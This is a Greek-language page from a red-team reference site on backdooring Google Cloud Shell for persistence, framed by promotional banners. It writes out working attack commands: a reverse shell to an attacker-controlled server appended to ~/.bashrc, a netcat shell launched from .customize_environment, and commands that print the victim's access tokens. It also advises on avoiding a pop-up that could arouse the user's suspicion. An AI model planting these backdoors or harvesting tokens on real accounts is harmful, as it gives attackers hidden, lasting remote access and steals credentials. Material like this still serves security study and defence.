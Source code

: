 # GCP - Μόνιμη Επιμονή στο Cloud Shell

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* αποθετήρια στο github.

</details>

## Cloud Shell

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Μόνιμη Πίσω Πόρτα

Το [**Google Cloud Shell**](https://cloud.google.com/shell/) σας παρέχει πρόσβαση στη γραμμή εντολών στους πόρους σας στο cloud απευθείας από τον περιηγητή σας χωρίς καμία σχετιζόμενη χρέωση.

Μπορείτε να έχετε πρόσβαση στο Cloud Shell της Google από τη **web κονσόλα** ή εκτελώντας το **`gcloud cloud-shell ssh`**.

Αυτή η κονσόλα έχει μερικές ενδιαφέρουσες δυνατότητες για επιτιθέμενους:

1. **Οποιοσδήποτε χρήστης της Google με πρόσβαση στο Google Cloud** έχει πρόσβαση σε ένα πλήρως πιστοποιημένο παράδειγμα Cloud Shell (Οι λογαριασμοί Υπηρεσιών μπορούν, ακόμα και αν είναι Ιδιοκτήτες του οργανισμού).
2. Το συγκεκριμένο παράδειγμα θα **διατηρήσει τον κατάλογο του αρχικού χρήστη για τουλάχιστον 120 ημέρες** αν δεν υπάρξει καμία δραστηριότητα.
3. Δεν υπάρχουν **δυνατότητες για έναν οργανισμό να παρακολουθήσει** τη δραστηριότητα αυτού του παραδείγματος.

Αυτό σημαίνει βασικά ότι ένας επιτιθέμενος μπορεί να τοποθετήσει μια πίσω πόρτα στον κατάλογο του χρήστη και όσο ο χρήστης συνδέεται στο GC Shell κάθε 120 ημέρες τουλάχιστον, η πίσω πόρτα θα επιβιώσει και ο επιτιθέμενος θα λάβει ένα κέλυφος κάθε φορά που το εκτελεί απλώς με την εντολή:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Υπάρχει ένα άλλο αρχείο στον φάκελο home με το όνομα **`.customize_environment`** που, αν υπάρχει, θα **εκτελείται κάθε φορά** που ο χρήστης έχει πρόσβαση στο **cloud shell** (όπως στην προηγούμενη τεχνική). Απλά εισάγετε την προηγούμενη πίσω πόρτα ή μια παρόμοια για να διατηρήσετε την επιμονή όσο ο χρήστης χρησιμοποιεί "συχνά" το cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι **την πρώτη φορά που εκτελείται μια ενέργεια που απαιτεί πιστοποίηση**, εμφανίζεται ένα παράθυρο εξουσιοδότησης pop-up στον περιηγητή του χρήστη. Αυτό το παράθυρο πρέπει να γίνει αποδεκτό πριν η εντολή μπορεί να εκτελεστεί. Αν εμφανιστεί ένα απροσδόκητο pop-up, μπορεί να προκαλέσει υποψίες και ενδεχομένως να θέσει σε κίνδυνο τη μέθοδο διατήρησης που χρησιμοποιείται.
{% endhint %}

Αυτό είναι το pop-up από την εκτέλεση της εντολής `gcloud projects list` από το cloud shell (ως επιτιθέμενος) που προβάλλεται στη συνεδρία χρήστη του περιηγητή:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ωστόσο, αν ο χρήστης έχει χρησιμοποιήσει ενεργά το cloudshell, το pop-up δεν θα εμφανιστεί και μπορείτε να **συγκεντρώσετε τα τεκμήρια του χρήστη με**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Πώς γίνεται η σύνδεση SSH

Βασικά, χρησιμοποιούνται αυτές οι 3 κλήσεις API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (θα σας κάνει να προσθέσετε το δημόσιο κλειδί που δημιουργήσατε τοπικά)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (θα σας κάνει να ξεκινήσετε την εικονική μηχανή)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (θα σας πει τη διεύθυνση IP του Google Cloud Shell)

Μπορείτε όμως να βρείτε περισσότερες πληροφορίες στο [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Αναφορές

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* αποθετήρια στο github.

</details>
